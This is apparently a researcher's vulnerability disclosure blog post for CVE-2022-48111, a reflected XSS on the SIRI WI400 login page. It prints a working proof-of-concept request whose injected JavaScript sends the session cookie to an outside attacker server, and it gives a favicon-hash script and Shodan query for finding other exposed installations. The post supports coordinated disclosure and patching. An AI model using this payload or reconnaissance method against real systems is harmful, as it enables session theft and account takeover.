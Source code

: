 ```yaml
---
title: CVE-2022-48111
layout: post
post-image: /assets/images/wi400/0.wi400_cover.jpg
description: This post makes public a vulnerability I happened to discover during one of my activities as a Penetration Tester.
tags:
  - how to
  - cybersecurity
  - vulnerability
  - CVE-2022-48111
  - XSS
  - cookie exfiltration
---
```


# SIRI WI400: XSS on Login Page – CVE-2022-48111

WI400 is a software developed by SIRI that acts as a web interface for the IBM Power Systems (AS/400). During a penetration test activity, a reflected cross-site scripting (XSS) vulnerability was found on the login page. This allowed to craft URLs with arbitrary JavaScript code injected that would execute once the link was visited.

![SIRI WI400 Login Page](/assets/images/wi400/1.wi400_login_page.png)

## Advisory – CVE-2022-48111

A cross-site scripting (XSS) vulnerability in the check_login function of S.I.R.I. s.r.l WI400 between v.8 and v.11 included allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the “f” parameter.

## Technical Details

During a black-box penetration test activity carried out on the WI400 v9.5 emerged the possibility to reflect some parameters in the server response. By further investigating the matter, it was found out that the login page was vulnerable to reflected cross-site scripting attacks. Once confirmed, it was possible to exfiltrate the session cookie. In a likely scenario an attacker could, for example, steal it by means such as a phishing attack and log into the system impersonating the victim.

As a proof of concept, rather than popping up an alert printing the cookie, the JavaScript payload was crafted as a XMLHttpRequest that would send the token to our server.

The following is a POC snippet of the request with the payload used to verify and confirm the above mentioned vulnerability.

```
GET /WI400/index.php?t=CHECK_LOGIN&f=";const+req+%3d+new+XMLHttpRequest()%3breq.open("GET",+"https%3a//[REDACTED]/"%2bdocument.cookie)%3breq.send();var+tail="y
HTTP/1.1
Host: [REDACTED]
Cookie: PHPSESSID=o7p2j3i1a14sb1fp8e1s1hhuv7
[…]
```

In the server response it can be seen that the payload is returned without proper sanitization so the JavaScript code executes correctly once the URL is visited.

```javascript
HTTP/1.1 200 200
[…]

<!DOCTYPE html>
[…]
    var FOCUSED_FIELD = "";
    var FOCUSED_TAB ="";
    var REFRESH_FOCUS = false;
    var __WI400_HMAC = "";
    var __WI400_SESSION = "";
    var CURRENT_ACTION = "CHECK_LOGIN";
    var CURRENT_FORM = "";const req = new XMLHttpRequest();req.open("GET", "https://[REDACTED]/"+document.cookie);req.send();var tail="y";
[…]
```

In fact, as one can see in the picture below, the code executes on the target and the user session cookie is successfully exfiltrated to the “attacker” server.
![Session cookie exfiltrated to attacker server](/assets/images/wi400/2.wi400_stolen_cookie-redacted.png)

In order to exploit the vulnerability **no authentication is necessary**.

To understand if other versions of the software were subsceptible to the same kind of vulnerability, I needed to find other installations of the same.
To do so, I used what is, in my optinion, a pretty nifty trick. I calculated tha favicon hash with this python script:

```python
import mmh3
import requests
import codecs

response = requests.get('https://[REDACTED]/favicon.ico')
favicon = codecs.encode(response.content,"base64")
hash = mmh3.hash(favicon)
print(hash)
```

and then we looked it up on Shodan with the following query:
`http.favicon.hash:[REDACTED]`

After comparing the codebase in the new found installations with the one we I was testing, I was able to confirm that multiple versions of the software were vulnerable to the same XSS. The vendor was promptly notified of the findings.

## Recommendations

If your version of the WI400 software is included between 8 and 11 you can choose one of the following:

- Enable the “safe mode” that can be activated on request by SIRI since v.8
- Update the software to the latest release

## Resolutions from SIRI

> We recommend all our customers to activate the “safe mode”. In future releases the parameter will be enabled by default and cannot be disabled.\
> Contact the [help desk](mailto:info@siri-informatica.it) for further information.

## Disclosure Timeline

- 14/12/2022 – Initial contact with SIRI
- 16/12/2022 – SIRI acknowledges the problem and decides to work with Yarix for a coordinated disclosure
- 02/02/2023 – MITRE assigned CVE-2022-48111 to the vulnerability
- 02/03/2023 – Full disclosure

## Resources & References

- [https://www.wi400.com/](https://www.wi400.com/)
- [CVE-2022-48111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-48111)
